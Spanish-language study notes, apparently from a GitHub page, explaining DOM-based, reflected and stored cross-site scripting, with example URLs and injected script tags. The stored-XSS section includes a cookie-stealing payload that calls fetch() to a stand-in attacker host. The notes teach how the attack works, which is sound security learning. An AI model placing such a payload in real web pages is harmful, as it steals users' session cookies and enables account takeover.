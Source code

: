 ### XSS basado en DOM

DOM – Document Object Model 

El DOM es la estructura de la página en forma de arbol 
La vulnerabilidad existe en el código del cliente, en vez del código del servidor

Esta vulnerabilidad ocurre cuando una app web contiene algo de JavaScript en el lado del cliente y procesa datos no confiables y de una manera insegura, escribiendo los datos al DOM. 

Un ejemplo de esto es que una página use JavaScript para leer el valor de un campo de entrada y escribirlo en el HTML. Si el atacante controla el valor del campo de entrada, podría poner código malicioso, haciendo que se ejecute.

---

### ¿Cómo puede explotarse esta vulnerabilidad?

#### XSS reflejado 

En el XSS reflejado, el atacante crea un enlace malicioso con un script dentro de alguno de los parámetros de la URL

```bash
https://insecure-website.com/status?message=All+is+well. 
<p>Status: All is well.</p> 
```

↓

```bash
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script> 
<p>Status: <script>/* Bad stuff here... */</script></p> 
```

En este ejemplo, el atacante está poniendo un script malicioso en el parámetro message. 

Si un usuario va a esa URL el script se ejecuta en su navegador. 

En el caso del ejemplo, no es nada peligroso, pero si se ejecuta cualquier script, también se podría realizar cualquier acción.

---

#### XSS almacenado

En este ataque el atacante manda un script / código malicioso a través de un campo de entrada, el servidor guardará el valor de ese campo en su BD.

```bash
<script>fetch('https://malicioso.com/robar?datos='+document.cookie)</script> 
```

En este ejemplo el atacante escribe un comentario en unsitio web con este código malicioso. 

Cada vez que un usuario visitela web, el navegador ejecutara el script, enviando sus cookies al atacante.

#### XSS basado en DOM
